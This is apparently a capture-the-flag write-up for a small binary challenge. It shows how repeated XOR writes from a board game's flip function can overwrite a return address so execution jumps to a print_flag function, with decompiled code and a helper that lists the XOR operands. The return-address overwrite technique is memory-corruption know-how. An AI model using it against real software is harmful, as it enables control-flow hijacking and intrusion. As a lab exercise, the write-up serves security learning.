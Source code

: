 So now we need to turn `0x400b6f` into `0x400737`, the address of `print_flag`.

## Battle plan

Recall that `flip` does multiple writes (XORs). One to `*(*byte)board_base+row` and one to `*(*byte)board_base+row`. (it actually does a third write which is irrelevant if `row_idx > 0xe`, which it is in this case).

Any how, these are the writes:

```c
*(byte *)(board_base + (long)row_idx - 1) = 
*(byte *)(board_base + (long)row_idx - 1) ^ (byte)(1 << col_idx);

local_c = 3;
if ((index & 0xf) != 0) {
    local_c = (byte)(7 << (col_idx - 1U & 0x1f));
}
*(byte *)(board_base + (long)row_idx) = 
*(byte *)(board_base + (long)row_idx) ^ local_c;
```

`col_idx` thus somehow controls what value we XOR the bytes with.

After some trial, error and :thinking:, we realize that we can solely utilize the second `write` repeatedly. First, for targetting `row_idx=17` so that we overwrite the second lowest byte of the return address:
```
0x400b6f  :  we want to flip 0b to 07. 
    ^^
```

Doing this will also change the lowest byte `6f` to something we don't know yet. So after this, we want to target the lowest byte by using `row_idx=16`.
```
0x4007XX  :  we want to flip XX to 37. 
      ^^
```

## Instrumenting the plan
Lifting the small code out to a C script to calculate which values we get to XOR with (once again, dependent on `col_idx`)
```
for (int i = 0; i < 10; i++){
    printf("@[%d] : \t %02hhx\n", i, 7 << ((i - 1U) & 0x1f));
}
```
=>
```c
[0] : 00    /* 00000000 */ 
[1] : 07    /* 00000111 */ 
[2] : 0e    /* 00001110 */ 
[3] : 1c    /* 00011100 */ 
[4] : 38    /* 00111000 */ 
[5] : 70    /* 01110000 */ 
[6] : e0    /* 11100000 */ 
[7] : c0    /* 11000000 */ 
[8] : 80    /* 10000000 */ 
[9] : 00    /* 00000000 */ 
```
Using combinations of these operands we can generate any byte with XOR! Great! Now let's find out the order for XORing `0x0b` into `0x07` with these. `itertools` is great for this. Excuse me for perhaps making your eyes bleed when you view my algorithm skills below.


[f <x> <y>/h/q]: f 3 2    /* f/h/q = flip/help/quit */